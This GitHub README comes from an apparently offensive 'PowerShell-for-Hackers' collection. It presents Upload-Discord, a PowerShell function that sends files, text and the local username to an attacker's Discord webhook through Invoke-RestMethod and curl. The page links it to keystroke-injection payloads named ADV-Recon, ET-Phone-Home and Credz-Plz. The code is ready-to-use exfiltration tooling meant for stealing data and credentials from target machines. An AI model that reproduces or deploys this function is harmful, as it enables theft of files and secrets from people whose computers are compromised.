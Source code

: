 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Discord-Upload

<p align="center">
      <a href="https://www.youtube.com/watch?v=VPU7dFzpQrM">
        <img src=https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/raw/main/Assets/images/thumbnail.png width="300" alt="C#" />
      </a>
      <br>YouTube Tutorial
</p>

## Description

This function is used to upload either text or other files to your discord via a webhook 

## The Functions


### [Upload-Discord] 

This function is used to upload files to your discord. 

Just replace `$hookurl` with YOUR discord webhook

Now you can use either of the  `$text` or `$file` parameter or both 

```
function Upload-Discord {

[CmdletBinding()]
param (
    [parameter(Position=0,Mandatory=$False)]
    [string]$file,
    [parameter(Position=1,Mandatory=$False)]
    [string]$text 
)

$hookurl = 'YOUR-DISCORD-WEBHOOK'

$Body = @{
  'username' = $env:username
  'content' = $text
}

if (-not ([string]::IsNullOrEmpty($text))){
Invoke-RestMethod -ContentType 'Application/Json' -Uri $hookurl  -Method Post -Body ($Body | ConvertTo-Json)};

if (-not ([string]::IsNullOrEmpty($file))){curl.exe -F "file1=@$file" $hookurl}
}
```

----------------------------------------------------------------------------------------------------------------------------------
### [Syntax]
```
UploadFile-Discord -file "file.txt" -text "this is a text file"

or

UploadFile-Discord -file "image.jpg" -text "this is an iamge"
```


<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that can use one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
